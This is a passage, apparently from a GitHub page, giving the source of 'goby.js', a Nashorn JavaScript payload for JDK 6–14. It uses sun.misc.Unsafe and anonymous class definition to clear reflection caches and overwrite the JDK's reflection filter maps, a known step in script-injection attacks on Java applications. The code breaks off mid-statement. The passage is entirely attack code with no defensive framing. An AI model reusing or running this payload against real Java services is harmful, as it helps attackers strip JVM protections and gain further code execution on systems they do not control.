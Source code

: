 ### goby.js

适用范围：JDK6-14

```
try {
    load("nashorn:mozilla_compat.js");
} catch (e) {
}

function getUnsafe() {
    var theUnsafeMethod =
        java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafeMethod.setAccessible(true);
    return theUnsafeMethod.get(null);
}

function removeClassCache(clazz) {
    var unsafe = getUnsafe();
    var clazzAnonymousClass = unsafe.defineAnonymousClass(
        clazz,
        java.lang.Class.forName("java.lang.Class")
            .getResourceAsStream("Class.class")
            .readAllBytes(),
        null
    );
    var reflectionDataField =
        clazzAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(clazz, unsafe.objectFieldOffset(reflectionDataField), null);
}

function bypassReflectionFilter() {
    var reflectionClass;
    try {
        reflectionClass = java.lang.Class.forName(
            "jdk.internal.reflect.Reflection"
        );
    } catch (error) {
        reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
    }
    var unsafe = getUnsafe();
    var classBuffer = reflectionClass
        .getResourceAsStream("Reflection.class")
        .readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(
        reflectionClass,
        classBuffer,
        null
    );
    var fieldFilterMapField =
        reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
    var methodFilterMapField =
        reflectionAnonymousClass.getDeclaredField("methodFilterMap");
    if (
        fieldFilterMapField
            .getType()
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(fieldFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
```